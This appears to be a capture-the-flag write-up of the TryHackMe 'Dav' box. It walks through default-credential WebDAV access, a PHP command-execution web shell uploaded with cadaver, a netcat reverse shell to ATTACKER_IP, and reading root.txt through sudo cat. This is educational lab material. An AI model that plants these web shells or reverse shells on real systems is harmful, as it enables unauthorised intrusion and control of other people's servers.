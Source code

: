 ## Summary
This is a writeup for the box posted by TryHackMe and can be found on https://tryhackme.com/r/room/bsidesgtdav. It is a simple boot2root box which requires some enumeration online to discover default credentials, after gaining said credentials, the cadaver tool is used to insert a backdoor php file which grants access to the box as the www-data user who can then subsequently escalate their privileges through the "cat" binary

### Nmap Scan
```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

### Initial Access
Default apache index.html found on Web server, there were no hidden comments found when inspecting the webpage.
![Dav-20241105130756280](https://github.com/user-attachments/assets/3e99da61-a36f-4ea7-9e59-fb4bd1f9601c)



Running gobuster on the web server to check for hidden directories shows the directory /webdav
![Dav-20241105130527407](https://github.com/user-attachments/assets/d9612549-24be-4a98-8751-37203c3e2ffc)


After viewing the directory `/webdav` there is a prompt for a username and password, searching online for default credentials for the webdav login, this [site](https://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html) displayed the default credentials required to log in.
![Dav-20241105130649817](https://github.com/user-attachments/assets/3e57a3e8-6577-4e66-bd79-a632d7a28fc4)



Directory listing shows a possible password file which is uncrackable
![Dav-20241105131144223](https://github.com/user-attachments/assets/00d8b1f8-07e9-4e34-ba59-c29e7664ef50)


Using the cadaver tool to login, a simple backdoor php file can be placed in the webdav directory and then executed to access the system.

![Dav-20241105131239357](https://github.com/user-attachments/assets/1b579138-4145-48a4-97c7-f1040fe0e6e1)




Content of backdoor.php:
```php
<?php
echo system($_GET['cmd']);
?>
```

Successful remote code execution!
![Dav-20241105131501800](https://github.com/user-attachments/assets/3accc6e3-6e49-472f-8382-b5932df74dd0)


To gain a reverse shell set up a listener on the attacker box using  `nc -lvnp 9001` and on the backdoor.php file use the command `busybox nc ATTACKER_IP 9001 -e sh`

Successful reverse shell connection!

![Dav-20241105131651850](https://github.com/user-attachments/assets/dc47b028-1c0f-4a20-918b-35644540aa11)



I use these commands to stabilize my shell after receiving a reverse shell connection
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
 Background the connection by pressing CTRL+Z
stty raw -echo; fg
export TERM=xterm
```


After initial access, the www-data user can read the first file located in merlin's home directory
![Dav-20241105132215602](https://github.com/user-attachments/assets/ab3b1584-1fad-43ef-9afb-cf9d4e1174d8)


### Privilege Escalation

![Dav-20241105131848070](https://github.com/user-attachments/assets/4947c2ac-ef15-4d7e-8de8-fec7ffdfc12e)

Running `sudo -l` shows that the www-data user can use the binary cat to read any file, this allows root.txt to be read using `sudo /bin/cat /root/root.txt` !
